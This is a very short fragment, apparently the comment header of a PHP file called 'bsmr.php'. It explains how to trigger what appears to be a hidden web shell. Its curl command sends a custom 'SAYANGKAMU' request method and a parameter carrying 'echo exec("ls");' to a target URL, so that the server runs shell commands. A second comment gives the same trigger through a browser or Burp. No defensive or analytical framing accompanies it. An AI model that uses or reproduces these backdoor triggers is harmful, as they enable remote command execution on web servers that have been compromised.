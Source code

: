 # bsmr.php
// using
// curl -X SAYANGKAMU ssl://url.domain/path/filename.ext  -d 'SayangKamu=echo exec("ls");'
// FireFox ( using burp/ another change request get/post to SAYANGKAMU and add params SayangKamu=echo exec("ls"); 
